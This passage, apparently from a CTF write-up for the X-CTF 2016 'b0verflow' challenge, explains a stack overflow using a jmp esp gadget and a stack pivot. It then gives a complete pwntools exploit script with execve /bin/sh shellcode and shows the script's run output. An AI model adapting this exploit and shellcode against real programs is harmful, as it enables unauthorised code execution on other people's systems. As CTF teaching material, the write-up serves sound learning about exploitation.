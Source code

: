 ```
   0xffa2973d:    mov    ecx,esp
   0xffa2973f:    mov    al,0xb
   0xffa29741:    int    0x80
```

We can see that when the `jmp esp` gadget is ran, `esp` points to our shellcode (which is stored right after the `jmp esp` gadget). With that, our shellcode is executed and we get a shell. Also I did not write the shellcode myself, I got it from `http://shell-storm.org/shellcode/files/shellcode-827.php`.

## Exploit

Putting it all together, we have the following exploit:

```
from pwn import *

# Establish the target process
target = process('./b0verflow')
#gdb.attach(target, gdbscript = 'b *0x080485a0')

# The shellcode we will use
# I did not write this, it is from: http://shell-storm.org/shellcode/files/shellcode-827.php
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

# Establish our rop gadgets

# 0x08048504 : jmp esp
jmpEsp = p32(0x08048504)

# 0x080484fd : push ebp ; mov ebp, esp ; sub esp, 0x24 ; ret
pivot = p32(0x80484fd)

# Make the payload

payload = ""
payload += jmpEsp # Our jmp esp gadget
payload += shellcode # Our shellcode
payload += "1"*(0x20 - len(shellcode)) # Filler between end of shellcode and saved return address
payload += pivot # Our pivot gadget

# Send our payload
target.sendline(payload)

# Drop to an interactive shell
target.interactive()
```

When we run the exploit:

```
$    python exploit.py
[+] Starting local process './b0verflow': pid 18753
[*] Switching to interactive mode

======================

Welcome to X-CTF 2016!

======================
What's your name?
Hello \x04\x85\x01�Ph//shh/bin\x89�PS\x89�
                                          111111111��
.$                                                  w
```